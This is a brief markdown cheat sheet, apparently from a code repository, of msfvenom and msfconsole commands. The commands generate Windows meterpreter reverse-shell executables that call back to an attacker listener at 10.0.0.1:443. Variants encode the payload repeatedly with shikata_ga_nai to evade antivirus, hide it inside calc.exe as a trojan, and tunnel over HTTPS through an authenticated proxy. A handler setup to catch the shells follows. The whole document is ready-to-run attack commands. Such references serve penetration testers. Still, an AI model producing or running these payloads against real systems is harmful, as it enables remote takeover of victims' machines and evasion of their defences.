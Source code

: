 # Msfvenom

Examples of previously created MSFVenom payloads required in the different scenarios

##### Reverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o shell.exe
```

##### Encoded multiple times:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -e x86/shikata_ga_nai -i 10 -f exe -o shell.exe
```

##### Add Windows Calc.exe as a template:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -f exe -x calc.exe -e x86/shikata_ga_nai -i 10 -f exe -o calc-shell.exe
```

##### Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=user HttpProxyPass=password LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o shell.exe
```

##### MSF Console:
```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 10.0.0.1
set lport 443
exploit -j
```
